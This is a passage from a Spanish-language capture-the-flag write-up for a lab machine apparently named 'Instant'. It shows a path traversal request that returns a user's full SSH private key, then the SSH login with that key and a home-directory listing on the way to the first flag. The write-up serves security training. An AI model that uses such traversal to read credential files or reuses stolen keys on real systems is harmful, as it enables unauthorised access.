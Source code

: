 ```bash
{"/home/shirohige/logs/../.ssh/id_rsa":["-----BEGIN OPENSSH PRIVATE KEY-----\n","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\n","-----END OPENSSH PRIVATE KEY-----\n"],"Status":201}
```

Formateando esta llave privada y dándole los permisos correspondientes (600), ya tendremos acceso como el usuario `shirohige`

```bash
❯ /usr/bin/ssh -i id_rsa shirohige@10.10.11.37
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
shirohige@instant:~$
```

En su directorio personal encontraremos la primera flag.

```bash
shirohige@instant:~$ ls -al
total 40
drwxr-xr-x 7 shirohige shirohige 4096 Oct  4 15:22 .
drwxr-xr-x 3 root      root      4096 Oct  4 15:22 ..
lrwxrwxrwx 1 root      root         9 Aug  8  2024 .bash_history -> /dev/null
lrwxrwxrwx 1 root      root         9 Aug  8  2024 .bash_logout -> /dev/null
-rw-r--r-- 1 shirohige shirohige 3771 Aug  8  2024 .bashrc
drwx------ 4 shirohige shirohige 4096 Oct  4 15:22 .cache
drwxrwxr-x 3 shirohige shirohige 4096 Oct  4 15:22 .local
lrwxrwxrwx 1 root      root         9 Aug  8  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 shirohige shirohige  807 Aug  8  2024 .profile
lrwxrwxrwx 1 root      root         9 Aug 10  2024 .python_history -> /dev/null
drwx------ 2 shirohige shirohige 4096 Oct  4 15:22 .ssh
```